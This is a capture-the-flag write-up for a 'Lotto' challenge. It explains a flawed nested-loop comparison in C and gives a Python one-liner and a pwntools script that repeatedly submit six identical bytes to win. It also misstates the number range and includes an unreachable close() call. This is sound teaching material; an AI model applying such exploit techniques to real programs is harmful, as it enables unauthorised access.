 
---

# **Challenge 13: Lotto**

### **Challenge Overview**
The objective of this challenge is to "guess" 6 random numbers between 1 and 46, generated by the program, to reveal the flag.

At first glance, this seems impossible due to the randomness of the numbers generated from `/dev/urandom`. However, the program contains a **logic vulnerability** that allows us to bypass the randomness and "win" the lotto by exploiting the comparison logic in the code.

---

## **Code Analysis**

### **Key Code Snippets**

1. **Random Number Generation**:
   ```c
   int fd = open("/dev/urandom", O_RDONLY);
   if (fd == -1) {
       printf("error. tell admin\n");
       exit(-1);
   }
   unsigned char lotto[6];
   if (read(fd, lotto, 6) != 6) {
       printf("error2. tell admin\n");
       exit(-1);
   }
   ```
   - The program generates 6 random bytes from `/dev/urandom` and stores them in the `lotto` array.
   - Each byte is reduced to the range `[1, 46]` using:
     ```c
     lotto[i] = lotto[i] % 45 + 1;
     ```

2. **User Input**:
   - The program reads 6 bytes from the user (stored in `submit`).
   - The goal is to "match" all 6 numbers between the `lotto` and `submit` arrays.

3. **Score Calculation (Vulnerable Logic)**:
   ```c
   int match = 0, j = 0;
   for (i = 0; i < 6; i++) {
       for (j = 0; j < 6; j++) {
           if (lotto[i] == submit[j]) {
               match++;
           }
       }
   }
   ```
   - This nested loop compares **every number in `lotto`** with **every number in `submit`**.
   - The issue is that **repeated numbers in `submit`** will cause multiple matches even if `lotto` contains only one matching number.

---

### **Exploitation Strategy**

The flawed comparison logic allows us to manipulate the `match` counter. Specifically:
- If we provide input such as `\x01\x01\x01\x01\x01\x01` (all 1s), every occurrence of `1` in `lotto` will contribute **6 matches** because it’s compared against each `1` in `submit`.

Thus, we can repeatedly play the lotto until the random numbers generated by `/dev/urandom` include at least one `1`. This will result in `match == 6`, and the flag will be revealed.

---

## **Exploitation Approaches**

### **Option 1: Manual Automation with Python CLI**
You can run the following Python command in the CLI repeatedly until the flag is displayed:
```bash
python3 -c "print('1\n' + '\x01' * 6 + '3\n')"
```
- This command:
  - Selects the "Play Lotto" option (`1\n`).
  - Submits the input `\x01\x01\x01\x01\x01\x01`.
  - Exits the program (`3\n`).
- Repeat this command until the flag appears.

---

### **Option 2: Full Python Automation Script**
For full automation, create a Python script that interacts with the binary. The script will:
1. Continuously play the lotto by selecting menu option `1`.
2. Input `\x01\x01\x01\x01\x01\x01` as the 6-byte submission.
3. Loop until the flag is displayed.

The script can be found in the repository.

### **How the Script Works**
1. **Menu Interaction**:
   - The program waits for user input to select a menu option. The script sends `1` to select "Play Lotto."

2. **Input Submission**:
   - The script submits `\x01\x01\x01\x01\x01\x01` as the input.
   - This input exploits the flawed comparison logic to potentially generate a match of 6.

3. **Repeat Until Success**:
   - The script keeps running the binary until stopped

---

## Exploit

```python
from pwn import *

# Path to the binary
conn = process('/root/ctf/lotto/lotto')  # Adjust the path to your binary

while True:
    # Receive the menu
    menu = conn.recvuntil(b"3. Exit\n", timeout=2).decode()
    print(menu)  # Debug print to verify what the program outputs

    # Send the menu choice: "1" for Play Lotto
    conn.sendline(b"1")

    # Receive the prompt for submitting lotto bytes
    prompt = conn.recvuntil(b"Submit your 6 lotto bytes :").decode()
    print(prompt)  # Debug print to verify prompt

    # Send 6 bytes as the lotto ticket
    ticket = b'\x01\x01\x01\x01\x01\x01'  # Replace with your desired values
    conn.sendline(ticket)

    # Read the response after submitting the ticket
    response = conn.recvline(timeout=2).decode()
    print(response)  # Debug print to verify result

# Close the connection
conn.close()

```

## **Key Takeaways**

1. **Logical Vulnerability**:
   - The comparison logic in the program is flawed because it allows repeated numbers in the user’s input to artificially inflate the `match` counter.

2. **Breaking Randomness**:
   - Instead of trying to guess the random numbers, we exploit the program's flawed design to "win" without truly matching all 6 numbers.

3. **Automation**:
   - Automating repetitive tasks is essential for CTF challenges, especially when dealing with randomness.

---
